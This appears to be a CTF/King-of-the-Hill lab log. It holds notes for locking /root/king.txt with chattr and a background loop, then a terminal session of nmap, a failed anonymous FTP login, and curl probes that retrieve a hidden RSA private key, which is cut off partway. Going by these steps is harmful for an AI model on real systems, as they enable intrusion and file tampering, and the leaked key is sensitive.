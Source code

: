 

chattr +i /root/king.txt

chattr -i /root/king.txt && (while true; do echo cyber30 >> /root/king.txt; sleep 0.1; done) & chattr +i /root/king.txt

find / -name flag.txt 2>/dev/null






root@ip-10-10-98-96:~# nmap 10.10.55.203

Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-29 14:09 BST
Nmap scan report for ip-10-10-55-203.eu-west-1.compute.internal (10.10.55.203)
Host is up (0.00025s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 02:05:A4:AF:EF:A9 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.74 seconds
root@ip-10-10-98-96:~# ftp 10.10.33.127
Connected to 10.10.33.127.
220 (vsFTPd 3.0.2)
Name (10.10.33.127:root): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
root@ip-10-10-98-96:~# curl http://10.10.33.127/https-robot.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /https-robot.txt was not found on this server.</p>
</body></html>
root@ip-10-10-98-96:~# curl http://10.10.33.127/http-robots.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /http-robots.txt was not found on this server.</p>
</body></html>
root@ip-10-10-98-96:~# curl http://10.10.33.127/robots.txt
User-agent: *
Disallow: /Cpxtpt2hWCee9VFa.txt
root@ip-10-10-98-96:~# curl http://10.10.33.127//Cpxtpt2hWCee9VFa.txt
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAsKHyvIOqmETYwUvLDAWg4ZXHb/oTgk7A4vkUY1AZC0S6fzNE
JmewL2ZJ6ioyCXhFmvlA7GC9iMJp13L5a6qeRiQEVwp6M5AYYsm/fTWXZuA2Qf4z
8o+cnnD+nswE9iLe5xPl9NvvyLANWNkn6cHkEOfQ1HYFMFP+85rmJ2o1upHkgcUI
ONDAnRigLz2IwJHeZAvllB5cszvmrLmgJWQg2DIvL/2s+J//rSEKyISmGVBxDdRm
T5ogSbSeJ9e+CfHtfOnUShWVaa2xIO49sKtu+s5LAgURtyX0MiB88NfXcUWC7uO0
Z1hd/W/rzlzKhvYlKPZON+J9ViJLNg36HqoLcwIDAQABAoIBABaM5n+Y07vS9lVf
RtIHGe4TAD5UkA8P3OJdaHPxcvEUWjcJJYc9r6mthnxF3NOGrmRFtDs5cpk2MOsX
u646PzC3QnKWXNmeaO6b0T28DNNOhr7QJHOwUA+OX4OIio2eEBUyXiZvueJGT73r
I4Rdg6+A2RF269yqrJ8PRJj9n1RtO4FPLsQ/5d6qxaHp543BMVFqYEWvrsdNU2Jl
VUAB652BcXpBuJALUV0iBsDxbqIKFl5wIsrTNWh+hkUTwo9HroQEVd4svCN+Jr5B
Npr81WG2jbKqOx2kJVFW/yCivmr/f/XokyOLBi4N/5Wqq+JuHD0zSPTtY5K04SUd
63TWQ5kCgYEA32IwfmDwGZBhqs3+QAH7y46ByIOa632DnZnFu2IqKySpTDk6chmh